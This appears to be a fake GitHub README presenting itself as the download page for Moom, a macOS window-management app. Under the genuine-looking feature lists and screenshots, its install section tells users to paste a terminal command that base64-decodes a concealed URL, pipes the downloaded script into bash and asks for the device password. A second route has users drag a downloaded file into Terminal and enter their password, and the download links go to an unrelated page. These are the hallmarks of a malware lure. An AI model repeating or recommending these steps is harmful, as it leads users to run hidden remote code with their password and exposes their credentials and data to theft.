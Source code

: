 # 🪟 Moom — Window Management Utility for macOS

**Moom** is a powerful and intuitive window management app for macOS, designed to help you organize and resize your application windows with ease. Whether you want to snap windows to halves, quarters, or custom layouts, Moom provides fast controls right from your mouse or keyboard, boosting your productivity and workspace organization on Mac.

---

## ✅ Download Moom for macOS  
[![Download Moom](https://img.shields.io/badge/Download-Moom-green)](https://shuziktobehuman.github.io/huja/Moom)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Moom?

Moom lets you quickly move and zoom windows using a simple interface that appears when you hover over the green maximize button. It supports grid-based resizing, custom window layouts, and keyboard shortcuts, making it easy to adapt your workspace to any task. Compatible with both Intel and Apple Silicon Macs, Moom enhances multitasking without overwhelming your screen.

---

## ✨ Features

- 🖱 Resize and move windows via mouse hover or keyboard shortcuts  
- 🔲 Snap windows to halves, thirds, quarters, or custom grid areas  
- 🎛 Save and restore window layouts for different workflows  
- ⌨️ Fully customizable keyboard shortcuts for quick window control  
- 🌐 Works with multiple displays and macOS Spaces  
- ⚡ Lightweight and optimized for Apple Silicon and latest macOS versions  
- 🎨 Simple, unobtrusive interface that integrates seamlessly with macOS  
- 🔄 Supports window snapping and edge detection  
- 🧰 Includes window resizing presets for common layouts  
- 📱 Compatible with macOS Ventura and newer versions  

---

## 💡 Why Use Moom?

- 🔥 Save time managing multiple windows on your Mac  
- 🧩 Improve workflow by customizing window layouts  
- 💻 Perfect for developers, designers, writers, and multitaskers  
- 🎯 Reduce desktop clutter and optimize screen real estate  
- 📲 Easy to learn, intuitive to use for every Mac user  

---

[![Download Moom](https://img.shields.io/badge/Download-Moom-green)](https://shuziktobehuman.github.io/huja/Moom)

---


## 🖼 Preview

![Moom Screenshot 1](https://cdn.macstories.net/moom-hero-1725373011578.png)  
![Moom Screenshot 2](https://9to5mac.com/wp-content/uploads/sites/6/2025/01/Moom-is-my-new-Mac-window-management-app.jpg?quality=82&strip=all&w=1600)

---

## 📌 Tags

moom mac, moom mac os, moom mac download, moom download mac,  
window manager mac, mac window snapping, mac window resize, mac productivity tool,  
mac multitasking app, moom app for mac, moom window control, window snapping tool mac,  
window layout mac, moom resize mac, moom macos utility  
